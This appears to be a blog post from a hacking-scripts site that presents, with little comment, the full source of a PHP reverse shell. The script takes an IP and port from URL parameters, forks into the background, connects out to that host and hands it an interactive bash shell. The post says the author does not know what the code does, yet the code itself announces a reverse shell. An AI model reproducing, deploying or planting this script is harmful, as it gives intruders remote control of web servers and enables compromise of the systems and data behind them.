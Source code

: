 ```yaml
---
id: 86
title: Random Shell Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=86
permalink: /random-shell-script/
categories:
  - PHP
tags:
  - PHP
---
```

A random shell script.. I don&#8217;t know what this one does, or find any information on it. I don&#8217;t even know what it&#8217;s called! Anyway, it is very nicely written and commented.


### Random Shell Script Source Code

{% highlight php %}<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = $_GET["ip"]; 
$port = $_GET["port"]; 
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = '/bin/bash -p -i';
$daemon = 0;
$debug = 0;
 
if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
 
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
 
    if ($pid) {
        exit(0);  // Parent exits
    }
 
    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }
 
    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
 
// Change to a safe directory
chdir("/");
 
// Remove any umask we inherited
umask(0);
 
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}
 
// Spawn shell process
$descriptorspec = array(
   0 =&gt; array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 =&gt; array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 =&gt; array("pipe", "w")   // stderr is a pipe that the child will write to
);
 
$process = proc_open($shell, $descriptorspec, $pipes);
 
if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}
 
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
 
printit("Successfully opened reverse shell to $ip:$port");
 
while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }
 
    // Check for end of STDOUT
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }
 
    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
 
    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }
 
    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }
 
    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}
 
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
 
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
?>
{% endhighlight %}
